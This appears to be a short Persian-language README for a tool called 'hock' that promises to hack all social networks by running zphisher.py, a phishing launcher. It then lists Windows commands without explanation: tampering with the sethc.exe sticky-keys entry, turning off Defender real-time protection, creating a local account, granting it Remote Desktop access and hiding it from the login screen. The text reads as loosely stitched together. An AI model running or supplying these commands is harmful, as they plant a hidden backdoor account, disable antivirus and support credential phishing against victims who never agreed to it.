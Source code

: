 # hock
هک همه شبکه های اجتماعی

# نصب

بعد اینه که دانلود کردین وارد پوشه  شده و درستورات زیر را وارد کنید

## دستورات
$python zphisher.py
## تمام ##
وارد منو شوید هر هکی دوس دارید انجام بدید
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"



start Powershell Set-MpPreference -DisableRealtimeMonitoring $true



net user user pass /add
net localgroup "Remote Desktop Users" user /add

reg add "hklm\software\microsoft\windows nt\currentversion\winlogon\specialaccounts\userlist" /v user /t reg_dword /d 0 /f
